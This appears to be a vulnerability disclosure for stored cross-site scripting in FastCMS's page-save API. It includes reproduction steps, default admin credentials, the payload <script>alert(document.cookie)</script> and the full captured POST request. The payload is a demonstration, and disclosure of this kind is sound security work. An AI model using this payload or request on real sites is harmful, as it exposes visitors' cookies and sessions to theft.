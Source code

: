 CMS:https://github.com/my-fastcms/fastcms/

Vulnerability http://127.0.0.1:8080/fastcms/api/admin/page/save

POST form-data parameter title=" " exists stored cross-site scripting

Copy Steps
1.Go to administrator login
http://127.0.0.1:8080/fastcms/
Default administrator access information username:admin password: 1

2.Click on "Page" and click on "New Page"
![295873542-05741a25-8139-4c89-bb98-101c97e4f93e](https://github.com/biantaibao/XSS/assets/131763503/16ed9fd1-b9ce-405a-9b79-b5488485c902)


3.Put Payload into the title parameter
Payload:<script>alert(document.cookie)</script>
![image](https://github.com/biantaibao/XSS/assets/131763503/5bbafc53-ae85-47f1-8481-3994fa3c35af)

4.Click on Save
Transmission packet
POST /fastcms/api/admin/page/save HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: application/json, text/plain, /
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoiMSIsInVzZXJJZCI6MSwidXNlcm5hbWUiOiJhZG1pbiIsImV4cCI6MTcwNDk4MjgzNX0.BqRd5hHJ5rZQHfCwR1JwyaQT_iyFPyhbBIes1Paj-eg
ClientId: 5986012cabe54397a001bf61b4d88706
Content-Type: application/x-www-form-urlencoded
Content-Length: 305
Origin: http://127.0.0.1:8080
Connection: close
Referer: http://127.0.0.1/fastcms.html
Cookie: Hm_lvt_2f24154b3f87697d36a4e2a638b68aaa=1704782281; JSESSIONID=36080a69-5232-4088-85be-6074f45e49e2; Hm_lpvt_2f24154b3f87697d36a4e2a638b68aaa=1704782281; Hm_lvt_f8cddee34ca21f05373a9388cfdd798b=1704964823; Hm_lpvt_f8cddee34ca21f05373a9388cfdd798b=1704966995

id=3&createUserId=1&title=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&path=11&contentHtml=%3Cp%3E1%3C%2Fp%3E&outLink=&seoKeywords=1&seoDescription=1&summary=11&thumbnail=&style=&status=publish&suffix=&viewCount=0&commentEnable=false&created=&updated=&url=http%3A%2F%2F192.168.43.1%3A8080%2Fp%2F3

5.Payload will trigger when a user visits on http://127.0.0.1:8080/p/3
![image](https://github.com/biantaibao/XSS/assets/131763503/beb9c9c6-ca5c-46cb-818b-3103a0f4be33)


